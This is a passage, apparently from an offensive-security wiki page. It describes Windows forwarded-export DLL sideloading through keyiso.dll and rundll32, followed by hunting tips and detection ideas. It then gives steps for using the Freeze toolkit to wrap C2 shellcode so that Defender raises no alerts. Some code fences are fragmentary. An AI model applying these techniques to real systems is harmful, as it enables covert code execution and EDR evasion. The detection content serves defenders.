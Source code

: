```2) Drop a malicious `NCRYPTPROV.dll` in the same folder. A minimal DllMain is enough to get code execution; you do not need to implement the forwarded function to trigger DllMain.
    }
    return TRUE;
}
```
```3) Trigger the forward with a signed LOLBin:
```
rundll32.exe C:\test\keyiso.dll, KeyIsoSetAuditingInterface
```
```
Observed behavior:
- rundll32 (signed) loads the side-by-side `keyiso.dll` (signed)
- While resolving `KeyIsoSetAuditingInterface`, the loader follows the forward to `NCRYPTPROV.SetAuditingInterface`
- The loader then loads `NCRYPTPROV.dll` from `C:\test` and executes its `DllMain`
- If `SetAuditingInterface` is not implemented, you'll get a "missing API" error only after `DllMain` has already run

Hunting tips:
- Focus on forwarded exports where the target module is not a KnownDLL. KnownDLLs are listed under `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs`.
- You can enumerate forwarded exports with tooling such as:
```
dumpbin /exports C:\Windows\System32\keyiso.dll
# forwarders appear with a forwarder string e.g., NCRYPTPROV.SetAuditingInterface
```
```- See the Windows 11 forwarder inventory to search for candidates: https://hexacorn.com/d/apis_fwd.txt

Detection/defense ideas:
- Monitor LOLBins (e.g., rundll32.exe) loading signed DLLs from non-system paths, followed by loading non-KnownDLLs with the same base name from that directory
- Alert on process/module chains like: `rundll32.exe` → non-system `keyiso.dll` → `NCRYPTPROV.dll` under user-writable paths
- Enforce code integrity policies (WDAC/AppLocker) and deny write+execute in application directories

## [[https://github.com/optiv/Freeze|**Freeze**]]

`Freeze is a payload toolkit for bypassing EDRs using suspended processes, direct syscalls, and alternative execution methods`

You can use Freeze to load and execute your shellcode in a stealthy manner.

```
Git clone the Freeze repo and build it (git clone https://github.com/optiv/Freeze.git && cd Freeze && go build Freeze.go)
1. Generate some shellcode, in this case I used Havoc C2.
2. ./Freeze -I demon.bin -encrypt -O demon.exe
3. Profit, no alerts from defender
```
```
![[../images/freeze_demo_hacktricks.gif|]]

